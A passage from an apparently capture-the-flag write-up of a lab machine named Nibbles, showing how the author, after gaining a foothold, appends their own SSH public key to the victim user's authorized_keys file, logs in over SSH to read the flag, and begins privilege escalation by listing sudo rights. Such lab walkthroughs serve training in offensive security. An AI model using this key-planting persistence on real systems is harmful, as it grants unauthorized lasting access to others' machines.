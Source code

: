 And just like this we have gained access to the machine, however, as there is an SSH service, let's use it before grabbing the flag, I'm going to connect by **creating SSH keys** for our user and the pasting my SSH public key into its ***authorized_keys* file**:
```bash
cat ~/.ssh/id_ed25519.pub | xclip -sel clip
```

```bash
ssh-keygen
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpE4QtZoJ4GLwvKxM3BUvFKp/pI5lKsK34c+4m6AhZg tanades@kali" >> /home/nibbler/.ssh/authorized_keys
```
<br />

Let's now **connect with SSH** and **print the flag**:
```bash
ssh nibbler@10.10.10.75
```

![](/assets/Nibbles/16.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation for this machine is **very easy**, we just have to read file permissions.

<br />

Enumerating this user's sudo privileges, we can see that we can use **``sudo``  for a specific file**:
```bash
sudo -l
```
